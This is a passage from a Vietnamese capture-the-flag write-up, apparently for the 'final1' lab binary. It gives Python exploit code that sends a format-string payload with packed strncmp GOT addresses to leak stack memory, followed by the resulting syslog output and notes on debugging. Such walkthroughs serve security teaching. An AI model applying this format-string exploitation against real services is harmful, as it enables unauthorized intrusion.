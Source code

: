 ```py

ip, port = s.getsockname()
hostname = ip +":"+str(port)
pad = "A" * (24-len(hostname))

STRNCMP_1 = struct.pack("I", 0x0804a1a8)
STRNCMP_2 = struct.pack("I", 0x0804a1a8+2)

username = pad  +  STRNCMP_1 + STRNCMP_2 + "%x "*20
login = "login " + "AAAA"
print(read_until("[final1] $ "))
s.send("username "+username+"\n")
raw_input('waiting ... hit [enter]')
print(read_until("[final1] $ "))
s.send(login+ "\n" )
raw_input('waiting ... hit [enter]')
print(read_until("[final1] $ "))
```

ở bên trong `tail /var/log/syslog` ta được:
```bash
Nov 12 23:39:06 (none) final1: Login from 127.0.0.1:46455 as [AAAAAAAAA��#004#010��#004#0108049ee4 804a2a0 804a220 bffffca6 b7fd7ff4 bffffaf8 69676f4c 7266206e 31206d6f 302e3732 312e302e 3436343a 61203535 415b2073 41414141 41414141 804a1a8 804a1aa 25207825 78252078 ] with password [AAAA]
```

Hai hàm raw_input để ngắt cho chương trình không bị kết thúc và ta có thể dừng lại ở điểm này (tương tự như break point). Bây giờ chúng ta sẽ bắt đầu vào debug

- Ban đầu ta thấy chương trình chỉ có 1 tiến trình đang hoạt động

![Alt text](image-12.png)
